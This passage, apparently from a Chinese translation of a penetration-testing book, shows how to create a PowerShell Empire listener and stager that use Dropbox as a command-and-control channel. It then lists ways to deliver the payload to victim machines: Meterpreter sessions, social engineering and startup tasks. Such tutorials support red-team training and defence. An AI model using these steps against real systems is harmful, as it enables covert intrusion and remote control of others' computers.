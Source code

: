    图 13.8：生成 Dropbox 访问令牌

1.  您现在可以通过运行以下命令在我们的 Empire 工具上使用生成的访问令牌生成有效载荷：

    ```
    > listeners
    > uselistener dbx
    > set apitoken <yourapitoken>
    > usestager multi/launcher dropbox
    > execute 
    ```

    输出应如此显示：

    ![](img/B17765_13_09.png)

    图 13.9：在 PowerShell Empire 中成功创建 Dropbox 监听器

    如果 API 令牌正确并且一切正常，Dropbox 账户现在应显示名为 `Empire` 的文件夹，其中包含名为 `results`、`staging` 和 `taskings` 的三个子文件夹，如 *图 13.10* 所示：

    ![](img/B17765_13_10.png)

    图 13.10：在 Dropbox 内生成的文件夹

1.  一旦监听器启动运行，攻击者可以利用多种方法传递有效载荷，例如，通过从现有 Meterpreter 会话中运行，使用社会工程学，或创建一个定期任务以在系统启动时报告。

攻击者可以利用任何免费的文件托管服务来存储有效载荷，并让受害机下载并执行代理程序。成功的代理程序将向 Empire 报告，如 *图 13.11* 所示：

![一台计算机的屏幕截图，自动生成的描述，中等置信度](img/B17765_13_11.png)

